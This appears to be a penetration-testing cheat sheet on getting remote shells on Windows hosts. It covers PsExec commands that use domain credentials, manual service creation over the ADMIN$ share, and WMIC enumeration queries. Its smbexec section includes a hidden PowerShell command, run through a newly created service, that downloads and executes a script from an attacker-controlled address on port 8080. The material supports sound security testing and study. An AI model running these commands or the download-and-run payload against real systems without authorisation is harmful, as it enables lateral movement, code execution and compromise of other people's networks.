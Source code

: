 ## Get shells
### psexec
- `auxiliary/admin/smb/psexec`
- `auxiliary/admin/smb/psexec_comman`
- psexec.py - https://github.com/CoreSecurity/impacket

```
PsExec is a light-weight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software
```
```
PsExec.exe \\machinename -u user@domainname -p password cmd.exe
```
- `-s` to get `SYSTEM` shell
- Use runas to use Kerberos TGT and avoid giving password:
```
runas /netonly /user:user@domainname PsExec.exe \\machinename -u user@domainname  cmd.exe
```

Manual Operation
- Copy a binary to the ADMIN$ share over SMB (`C:\Windows\PSEXECSVC.exe.`)
    - `copy example.exe \\machine\ADMIN$`
- Create a service on the remote matching pointing to the binary
    - `sc \\machine create serviceName binPath="c:\Windows\example.exe"`
- Remotely start the service
    - `sc \\machine start serviceName`
- When exited, stop the service and delete the binary
    - `del \\machine\ADMIN$\example.exe`

### smbexec.pp
- Stealthier (does not drop a binary)
- Creates a service
- Service File Name contains a command string to execute (%COMSPEC% points to the absolute path of cmd.exe)
- Echos the command to be executed to a bat file, redirects the stdout and stderr to a Temp file, then executes the bat file and deletes it.
- Creates a log entry for each command.
-
```
Use Metasploit web_delivery to send script

sc \\machine create serviceName binPath="powershell.exe -nop -w hidden -c $k=new-object net.webclient;$k.proxy=[Net.WebRequest]::GetSystemWebProxy();$k.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $k.downloadstring('http://10.9.122.8:8080/AZPLhG9txdFhS9n');"
sc \\machine start serviceName
```

### Winexe
- https://sourceforge.net/projects/winexe/

### wmiexec.py
- Windows Management Instrumentation (WMI) to launch a semi-interactive shell.
- WMI is the infrastructure for management data and operations on Windows (like SNMP).
```
wmic computerystem list full /format:list  
wmic process list /format:list  
wmic ntdomain list /format:list  
wmic useraccount list /format:list  
wmic group list /format:list  
wmic sysaccount list /format:list  
```
- https://techcommunity.microsoft.com/t5/Ask-The-Performance-Team/Useful-WMIC-Queries/ba-p/375023
- https://windowstech.net/wmic-commands/